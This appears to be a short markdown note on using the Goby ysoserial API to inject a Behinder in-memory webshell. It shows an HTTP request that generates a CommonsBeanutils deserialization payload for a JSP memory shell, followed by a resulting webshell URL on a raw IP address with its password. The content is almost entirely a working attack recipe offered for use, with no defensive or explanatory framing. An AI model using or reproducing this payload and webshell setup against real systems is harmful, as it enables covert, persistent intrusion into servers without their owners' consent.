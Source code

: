 # goby yso api 注入冰蝎内存马

    ## CommonsBeanutils1183NOCC

```
POST /api/v1/ysoserial HTTP/1.1
Host: gobygo.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 152

gadget=CommonsBeanutils1183NOCC¶meters=EX-MS-TFMSFromThread-bx&encoding=base64&url=%2FGqExyxgcDfcc&password=goby&referer=https%3A%2F%2Fgobygo.net%2F
```

WebShell URL: http://1.58.73.61/webroot/XBJhGtvZBwOF
Password: goby
Webshell tool: Behinder v3.0
Webshell type: jsp
Referer: https://gobygo.net/

